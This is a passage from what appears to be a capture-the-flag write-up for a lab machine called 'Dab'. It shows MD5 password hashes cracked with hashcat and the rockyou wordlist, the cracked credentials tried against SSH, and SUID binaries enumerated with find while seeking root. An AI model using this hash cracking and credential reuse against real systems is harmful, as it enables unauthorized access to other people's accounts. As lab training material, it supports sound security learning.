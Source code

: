 ```
domenica.kulas:5cb322691472f05130416b05b22d4cdf
...
devon:953155467fab407a18cb7c8f576d1ef6
kory:c40c83a8bd2914202bd22770405b0b4c
keely.reynolds:8b0b59e115aad4d3deee62b591c80b28
adrianna:3ceb64d1364a8c92134484029e4f2770
jaylin.langworth:f3e06518bbfa9d108ad30cf5628e480a
agustin.kreiger:a434c202f65475988efa9622a77f9594
shaylee_roob:81dbedf631f0dd59d00403c661972c0a
zelma:55f0db8276de5dc76d9b858bd0de78a0
```

`Hashid` believes that they are MD5s so lets run hashcat: (we pulled the list out to a better spec'd windows box to speed up the cracking, but the command is the same in Kali)
```
C:\hashcat-5.1.0>hashcat64.exe -m 0 dab.md5 rockyou.txt

9731e89f01c1fb943cf0baa6772d2875 - abbigail:piggy
2ac9cb7dc02b3c0083eb70898e549b63 - admin:Password1
5177790ad6df0ea98db41b37b602367c - irma:strength
6f9ff93a26a118b460c878dc30e17130 - ona:monkeyman
0daa6275280be3cf03f9f9c62f9d26d1 - rick:lovesucks1
1e0ad2ec7e8c3cc595a9ec2e3762b117 - alec:blaster
fc7992e8952a8ff5000cb7856d8586d2 - genevieve:Princess1
eb95fc1ab8251cf1f8f870e7e4dae54d - wendell:megadeth
0ef9c986fad340989647f0001e3555d4 - aglae:misfits
c21f969b5f03d33d43e04f8f136e7682 - default:default
254e5f2c3beb1a3d03f17253c15c07f3 - d_murphy:hacktheplanet
fe01ce2a7fbac8fafaed7c982a04e229 - demo:demo
```

rockyou.txt is not able to crack them all, but its a good start. We thought about scripting the next steps, but with only 12 to test, it would have taken more time to write the script, than it would have to just manually test each credential against SSH. About half way through we get a hit with `genevieve:Princess1` and are able to read the user.txt flag.

Now on to root.

Trying `sudo -l` we get a troll executable: (rabbit hole 3)
```
genevieve@dab:~$ sudo /usr/bin/try_harder
root@dab:~# cat root.txt
Segmentation fault
That would have been too easy! Try something else.
```

So we move on and look for any SUID binaries:
```
genevieve@dab:~$ find / -perm -4000 -type f 2>/dev/null
/bin/umount
/bin/ping
/bin/ping6
/bin/su
/bin/ntfs-3g
/bin/fusermount
/bin/mount
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/myexec
/usr/bin/pkexec
```